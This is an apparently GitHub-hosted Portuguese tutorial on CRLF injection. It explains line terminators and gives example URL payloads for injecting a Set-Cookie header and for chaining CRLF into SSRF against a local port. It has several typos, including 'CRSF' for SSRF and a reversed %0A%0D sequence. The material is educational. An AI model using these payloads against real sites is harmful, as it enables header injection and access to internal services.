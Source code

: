 # Introdução

> O termo CRLF refere-se aos caracteres *Carriege Return (CR)*, em ASCII 13 ou /r, e *Line Feed (LF)*, em ASCII 10 ou /n. Eles são usados para definir o términio de um linha, entretanto, tratado diferentemente nos sistemas operacionais que são comumente usados.Por exemplo: nos sistemas Windows tanto CR quanto LF são necessários para o término de linha, já nos sistemas Linux/UNIX apenas o LF é requerido. 

> A injeção de vulnerabilidade CRLF Injection ocorre quando a aplicação não sanitiza a entrada fornecida pelo usuário.

Os servidores HTTP confiam nos terminadores de linha para verificar as seções da requisição, as URL encodam os respectivos caracteres com os hexadecimais correspondentes (%0D e %0A).

Essa vulnerabilidade pode ser um vetor inicial para outras mais performáticas como injeção de cabeçalhos e até mesmo SSRF.

# Exploração

```html
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```
Neste exemplo os terminadores de linha são passados após a barra, mas também podem ser passados como parâmetros de uma URL correspondente a entrada de usuários:

```html
http://www.example.net/index.php?lang=en%0D%0ASet-Cookie:mycookie=myvalue
```

# CRLF + SSRF

Podemos executar montar uma cadeia de ataques combinando a vulnerabilidade de CRLF Injection para obtermos um CRSF. Imagine a seguinte url:

 ```html
https://search.example.com/man?url=man.html
```

Pode-se utilizar a vulnerabilidade CRLF para desencadear o SSRF

```
https://search.example.com/man?url=http://127.0.0.1:21%0A%0Dman.html
```




